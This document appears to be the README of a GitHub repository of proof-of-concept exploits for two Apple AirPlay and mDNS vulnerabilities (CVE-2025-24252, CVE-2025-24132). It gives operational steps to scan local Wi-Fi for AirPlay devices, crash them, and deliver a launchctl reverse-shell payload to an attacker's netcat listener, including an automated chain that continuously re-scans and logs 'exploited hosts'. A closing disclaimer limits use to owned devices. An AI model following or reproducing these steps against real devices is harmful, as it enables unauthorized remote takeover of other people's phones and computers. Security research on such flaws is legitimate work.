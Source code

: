 # AIRBORNE – 2-PoCs-1-Repository

PoCs for **CVE-2025-24252** and **CVE-2025-24132**  

Discovered and detailed by Oligo Security

https://www.oligo.security/blog/airborne

Both bugs live in Apple’s parsing of network data—specifically in Bonjour/mDNS and AirPlay’s TCP pairing flow.

---

## CVE-2025-24252 – mDNS TXT Record Crash Trigger

This vulnerability affects `AirPlayReceiver` and is triggered via malformed mDNS TXT records.

### Setup on Kali Linux

```bash
sudo apt update
sudo apt install python3-scapy avahi-daemon -y
sudo systemctl start avahi-daemon
```
**Wi-Fi Adapter Requirement**

To run crashtest_CVE-2025-24252.py and chain_exploit.py, you must use a Wi-Fi adapter that supports monitor mode.

### Before running the scanner or chain exploit, make sure to

```bash
sudo ip link set wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ip link set wlan0 up
```

Replace wlan0 with the name of your adapter

You must be on the same Wi-Fi network as the target Apple devices

Monitor mode is required to properly receive multicast mDNS traffic over port 5353

### Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### Configure the PoC

```bash
nano crashtest_CVE-2025-24252.py
```

Set your attacker IP and interface. Then save and exit (`CTRL+X`, then `Y`, then `ENTER`).

### Run the PoC

```bash
python3 crashtest_CVE-2025-24252.py
```

### Monitor Target Behavior

Use `tcpdump` or Wireshark to capture traffic on the Apple device’s IP.

> Only test this on your own Apple devices in a safe lab setting.

---

## CVE-2025-24132 – AirPlay Pairing Heap Overflow

This bug is in the `AirPlayScreen` component and can trigger a heap overflow by sending malformed pairing/init packets over TCP port 7000.

---

### Scan for Vulnerable AirPlay Hosts

```bash
nmap -p 7000 --open --script=banner <your-local-subnet>/24
```

---

### Crash PoC: TCP Malformed Packet

A low-level socket-based fuzzing PoC that can be expanded into an RCE trigger.

Edit the script

```bash
nano PoC_CVE-2025-24132.py
```

Set your target IP. Then run

```bash
python3 PoC_CVE-2025-24132.py
```

Watch for
- System reboots
- Pairing process freezes
- AirPlay UI or app crashes

If observed, a heap overflow condition is likely confirmed.

---

## From Crash to Code Execution – CVE-2025-24132 RCE Simulation

### Overview

Trigger CVE-2025-24132 to simulate executing a reverse shell or `launchctl` job on a vulnerable or jailbroken Apple device.

Steps
- Overflow heap cleanly
- Inject shell command or plist-based job
- Trigger reverse shell or persistent execution

### What We Know

- AirPlay runs on TCP port `7000`
- `pairing-init` POST requests are vulnerable when oversized
- The protocol may accept binary plist payloads or plain XML

---

### Run the RCE Simulation Script

```bash
nano CVE-2025-24132_RCE.py
```

Set your
- `target_ip` (your Apple device)
- `attacker_ip` (your Kali machine)

Start your listener

```bash
nc -lvnp 4444
```

Then launch the PoC

```bash
python3 CVE-2025-24132_RCE.py
```

This sends a forged `launchctl` payload with a reverse shell string. Works only if the device is jailbroken or unpatched.

---
---

## **Combined Exploit Chain – Discovery to Exploitation**

`chain_exploit.py` links both CVEs into one seamless attack path:  
- Scans for AirPlay targets using mDNS (CVE-2025-24252 scan logic)
- Automatically launches the TCP pairing RCE payload (CVE-2025-24132)

This simulates how a real-world attacker could automate device discovery and exploit delivery in a local Wi-Fi environment.

### Features

- Automatic mDNS discovery of vulnerable Apple AirPlay devices
- Launches forged `pairing-init` payloads to port 7000
- Embedded reverse shell string inside a `launchctl` XML plist
- Live scanning mode (`--live`) for continuous background operation
- All successful targets are logged to `exploited_hosts.log`
- ASCII banner because we don’t miss 😤

### Run the Chain Exploit

```bash
nano chain_exploit.py
```

Set your
- `iface` — your active wireless interface (e.g. wlan0)
- `attacker_ip` — your Kali machine IP
- `attacker_port` — listener port (default: 4444)

Start your listener

```bash
nc -lvnp 4444
```

Then run

```bash
sudo python3 chain_exploit.py
```

Or to run continuously and re-scan every 10 seconds:

```bash
sudo python3 chain_exploit.py --live
```

### Output

- All discovered targets are printed
- Successful payloads are sent to each IP found
- All exploited IPs are saved to `exploited_hosts.log` with timestamps

> Note: Real reverse shell execution only occurs on jailbroken or unpatched Apple devices.

---

## DISCLAIMER

This project is for **educational and research purposes only**.

USER ASSUMES FULL RESPONSIBILITY WHEN UTILIZING THIS TOOL.  
**Only test on networks and devices you own or have explicit permission to test on.**

Unauthorized use may violate laws or terms of service.  
Use responsibly and ethically.

